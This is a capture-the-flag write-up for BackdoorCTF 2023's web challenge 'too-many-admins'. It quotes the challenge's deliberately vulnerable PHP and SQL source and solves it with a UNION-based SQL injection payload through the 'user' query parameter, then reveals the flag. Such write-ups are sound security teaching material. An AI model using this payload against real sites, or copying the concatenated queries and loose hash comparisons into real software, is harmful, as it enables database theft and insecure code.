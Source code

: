 # too-many-admins

### Category: Web

###### author: p1r4t3 - [ 239 solves / 314 pts ]

Too many admins spoil the broth. Can you login as the right admin and get the flag ?

`http://34.132.132.69:8000/`

Attachments:

- [public.zip](/BackdoorCTF%202023/Web/public.zip)

## Solution: (unintended?)

The web has an input form with 2 field, username and password. The objective is to login as the right admin and get the flag.

![](/media/bd23-2manyadm.png)

First, we check the `dump.sql` and `index.php` file from the provided zip.

### 📄 dump.sql

Inside the sql file, we can see a procedure like this

```sql
-- Insert 500 random values into the 'users' table
DELIMITER //
CREATE PROCEDURE GenerateRandomUsers()
BEGIN
    DECLARE i INT DEFAULT 0;
    WHILE i < 500 DO
        IF i = {SOME_NUMBER} THEN
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                'REDACTED',
                'Flag{REDACTED}'
            );
        ELSE
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END //
DELIMITER ;
```

What it does, basically, is store the flag on n-th admin's bio and generate random hashed-password for the rest.

### 📄 index.php

Next, this is the code for the input form:

```php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = $_POST['username'];
    $password = $_POST['password'];

    if (empty($username) || empty($password)) {
        echo "Please fill in both fields.";
    } else {
        $query = "SELECT username, password, bio FROM users WHERE username = '$username' ";
        $result = $conn->query($query);
        $mysupersecurehash = md5(2*2*13*13*((int)$password));
        $i =0 ;
        while ($row = mysqli_fetch_row($result)) {
            if((int)$row[1] == $mysupersecurehash && $mysupersecurehash == 0e0776470569150041331763470558650263116470594705){
                echo "<h1>You win</h1> \n";
                echo "Did you really? \n";
                echo "<tr><td>" .$i. " </td><td> "  . $row[0] . " </td><td> " . $row[1] . " </td><td> " . $row[2] . " </td></tr>";
                $i++;
            }else{
                echo "<h1>Wrong password</h1>";
            }
        }
    }
}
```

What it does:

- get the value of `$username` and `$password` from the form through POST Http-method
- check whether the value is empty or not.
- if not, then it retrieve `username`, `password`, and `bio` data from database where username is `$username`
- multiply the value of `$password` by 2\*2\*13\*13, hash the result, and store it in `$mysupersecurehash`
- then, loop through every row of the data and check 2 conditions: 1) if the password field is equal to `$mysupersecurehash`; and 2) if the value of `$mysupersecurehash` is `0e0776470569150041331763470558650263116470594705`
- if both conditions are true, then show the data row, including the bio field which store the flag

Looking at the code above, I figured that it has something to do with hash collision due to PHP loose comparison/type juggling vulnerability. So in order to get the flag, you need to figure out the correct admin username and bypass the loose comparison.

But wait a minute. I think we found another vulnerability.

Check this code below

```php
// Fetch the 'user' parameter from the query string
$userParam = $_GET['user'];

// Use prepared statement to prevent SQL injection
if($userParam){
    if($userParam !=  "all"){
        $query = "SELECT username, password, bio FROM users where username = '$userParam' ";
    } else {
        $query = "SELECT username, password, bio FROM users ";
    }
    $result = $conn->query($query);

    // Display the result in a table
    echo "<table border='1'>";
    echo "<tr><th>S.no</th><th>Username</th><th>Password(MD5 hashes)</th></tr>";

    // Fetch and display the data
    $i = 0;
    while ($row = mysqli_fetch_row($result)) {
        echo "<tr><td>".$i."</td><td>" . $row[0] . "</td><td>" . $row[1] . "</td></tr>";
        $i++;
    }

    echo "</table>";
}
```

Turns out that there's another usage of Http-method GET with `user` parameter.

- if `user` is "all", then get all the data from database
- other than that, it will use query with WHERE clause.

> _Cool! We can just get the flag right away by dumping all data using `?user=all` parameter, right?_

Nope. Because it will just show the first 2 field, username and password while the flag is in the 3rd field, bio.

So we need to use the 2nd query that has SQLI vulnerability.

- use UNION operator to combine two SELECT statements
- the 2nd statements is used to get the bio field from users table
- (optional) use LIKE operator so you can get the flag right away

This is the parameter/query that I use:

`?user=' union select username,bio,3 from users where bio like 'Flag%' --+-`

![](/media/bd23-2manyadm-2.png)

## FLAG

<details>
  <summary></summary>
  
flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}

_ps. as you can see from the flag, this challenge most likely has something to do with the type juggling vulnerability so what I did here is an unintended solution_ 😬✌️

</details>

🏷️tags: SQLI
